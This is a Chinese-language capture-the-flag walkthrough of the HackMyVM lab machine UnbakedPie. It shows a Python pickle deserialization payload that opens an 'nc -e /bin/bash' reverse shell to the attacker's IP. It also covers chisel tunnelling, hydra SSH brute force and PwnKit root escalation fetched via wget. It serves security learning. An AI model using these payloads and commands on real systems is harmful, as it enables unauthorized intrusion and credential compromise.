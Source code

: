 ```yaml
---
{"created":"2024-11-28T17:42:52.177+08:00","tags":["HMV","PwnKit提取","容器逃逸","pickle反序列化","端口转发","隧道搭建"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"ch4rm","aliases":null,"permalink":"/24-渗透/HMV/32.UnbakedPie/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/32.UnbakedPie#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/32.UnbakedPie#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/32.UnbakedPie#3. python反序列化\|3. python反序列化]]
- [[24-渗透/HMV/32.UnbakedPie#4. docker逃逸&提权\|4. docker逃逸&提权]]
- [[24-渗透/HMV/32.UnbakedPie#5. 端口转发 与SSH爆破\|5. 端口转发 与SSH爆破]]
	- [[24-渗透/HMV/32.UnbakedPie#5.1. chisel 搭建端口转发\|5.1. chisel 搭建端口转发]]
	- [[24-渗透/HMV/32.UnbakedPie#5.2. hydra爆破密码\|5.2. hydra爆破密码]]
- [[24-渗透/HMV/32.UnbakedPie#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=UnbakedPie
**作者** [ch4rm](https://hackmyvm.eu/profile/?user=ch4rm)
**难度** ⭐️⭐️⭐️⭐️⭐️

## 2. 信息收集
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# nmap -sS 192.168.56.27 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 17:53 CST

Nmap scan report for 192.168.56.27
Host is up (0.0010s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
5003/tcp open  filemaker
MAC Address: 08:00:27:10:44:F1 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 959.54 seconds
```

网站
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128182147.png)
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128183615.png)
 
`Server WSGIServer/0.2 CPython/3.8.6`
Python写的

上面有一个搜索框
抓包看看数据
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128202309.png)
`gA` 开头 一眼 [python反序列化](../../21-CTF/python/python反序列化.md)

对这个进行解码看一下
```python
import base64
a='gASVCgAAAAAAAACMBjEyMzEyM5Qu'
print(base64.b64decode(a))

输出
b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
```

```python
import pickle

p = b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
d = pickle.loads(p)
print(d)

输出
123123
```

## 3. python反序列化

123123就是我们输入的明文搜索内容

那我们直接构建一个反弹shell的payload

![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128230329.png)


```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/bash 192.168.80.5 1111 ",))
print(base64.b64encode(pickle.dumps(P())))

输出：
gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu
```
> [!warning]
> 这里一定要用Linux生成payload，因为其使用了 `os.system` 这个函数在linux与windows有所不同。所以要与靶机的系统相同。使用Linux生成payload


```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# python payload.py
b'gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu'

```
然后在这个位置随便搜索一下。抓个包替换掉 `search_cookie`
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120622.png)
开启监听 发包 反弹shell
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120703.png)
## 4. docker逃逸&提权
进来后会发现自己是root权限
但其实是在docker里面
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120834.png)
可以在根目录看到有一个 `.dockerenv` 文件。这就是在容器里面的特征之一

上传 [cdk](../../26-工具使用/CDK使用.md) 进行检测

先看一下内核版本
```bash
(remote) root@8b39a559b296:/tmp# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
```

试了好几个发现都不能成功，还是在看看其他利用点吧

看一下历史记录
```bash
history
```
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201135010.png)
这里面可以看到容器进行了一个内网的ssh连接 用户名是 `ramsey` IP是 `172.17.0.1`
这个ip可能就是主机IP 

我们尝试进行ssh连接一下
```bash
(remote) root@8b39a559b296:/tmp# ssh ramsey@172.17.0.1
bash: ssh: command not found
```
发现容器并没有安装ssh。 可能是已经杯卸载了

但是主机是不是开放了 ssh服务这对我们十分重要
在开始进行端口扫描时 就可以发现主机只对外开放了5003端口 并没有22端口
我们看看主机对内开放什么端口
```bash
(remote) root@8b39a559b296:/tmp# nc -znv 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 5003 (?) open
(UNKNOWN) [172.17.0.1] 22 (ssh) open
```
可以看到对内是开放了ssh服务的

## 5. 端口转发 与SSH爆破
此时我们知道了主机 ssh的用户名与ip
**那么我们这时候只需要搭建一个容器与kali的隧道，使得主机可以访问容器内网，然后在kali上进行ssh爆破即可**


### 5.1. chisel 搭建端口转发
使用kali给容器传一个 [chisel](../../26-工具使用/chisel%20使用.md)

kali开启反向监听
```bash
┌──(root㉿kali)-[/home]
└─# ./chisel server -p 9999 --reverse
2024/12/01 14:07:07 server: Reverse tunnelling enabled
2024/12/01 14:07:07 server: Fingerprint sP2BcLu3iBtJ8s51afwrmDlqpOsmsqVe64WNopPvgQM=
2024/12/01 14:07:07 server: Listening on http://0.0.0.0:9999

```

容器连接并配置反向端口转发
```bash
(remote) root@8b39a559b296:/tmp# ./chisel client 192.168.80.5:9999 R:8888:172.17.0.1:22
2024/12/01 06:09:54 client: Connecting to ws://192.168.80.5:9999
2024/12/01 06:09:54 client: Connected (Latency 799.51µs)

```

这时候访问就可以通过kali本地的 `127.0.0.1:8888` 访问到容器的 `172.17.0.1:22`

### 5.2. hydra爆破密码

```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:8888
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 14:12:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:8888/
[8888][ssh] host: 127.0.0.1   login: ramsey   password: 12345678

```
成功获取到密码 `12345678`

ssh连接获取flag
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# ssh ramsey@127.0.0.1 -p 8888
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
ED25519 key fingerprint is SHA256:B6SoW4WBwsc2n9NynSce9+R0E44T4YkZVRxD5y5Muhc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (ED25519) to the list of known hosts.
ramsey@127.0.0.1's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Sat Oct  3 22:15:57 2020 from 172.17.0.2


ramsey@unbaked:~$ cat user.txt
Unb4ked_W00tw00t

```
## 6. 提权
使用 [LZS](../../26-工具使用/LZS使用.md) 进行提权检测
发现可以用Pwnkit提权
直接提权
```bash
bash lzs.sh //提权检测
wget http://192.168.80.5/main.tar.gz
tar -zxvf main.tar.gz
cd CVE-2021-4034-main/
make
./cve-2021-4034
```

> pwncat下载的 `mian` 默认是zip压缩的。但是靶机上是没有 `unzip` 的所以要先在外面解压然后用`tar`打包 再传给靶机
```bash
root@unbaked:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(ramsey)
root@unbaked:/tmp# cat /root/root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: Unb4ked_GOtcha!

```

